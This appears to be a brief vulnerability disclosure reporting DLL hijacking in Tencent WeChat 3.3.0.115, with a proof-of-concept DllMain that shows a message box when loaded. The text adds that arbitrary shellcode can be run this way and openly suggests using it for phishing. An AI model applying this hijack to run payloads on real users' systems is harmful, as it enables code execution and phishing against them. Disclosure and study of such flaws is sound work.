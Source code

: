 DLL hijacking found in Tencent wechat, version 3.3.0.115

demonstration

For example:

``
`BOOL WINAPI DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved)`
`{`
	
	`if (dwReason == DLL_PROCESS_ATTACH)`
	
	`{`
	
		`DisableThreadLibraryCalls(hModule);`
		`MessageBox(NULL, (LPCTSTR)TEXT("1"), (LPCTSTR)TEXT("1"), MB_OK);`
		
	`}`
	
	`else if (dwReason == DLL_PROCESS_DETACH)`
	
	`{`



`}`

`return TRUE;`

`}`

You can define any code and shellcode to execute in the DLL's entry function!!

Very simple, we can be used for rights protection or phishing!!!


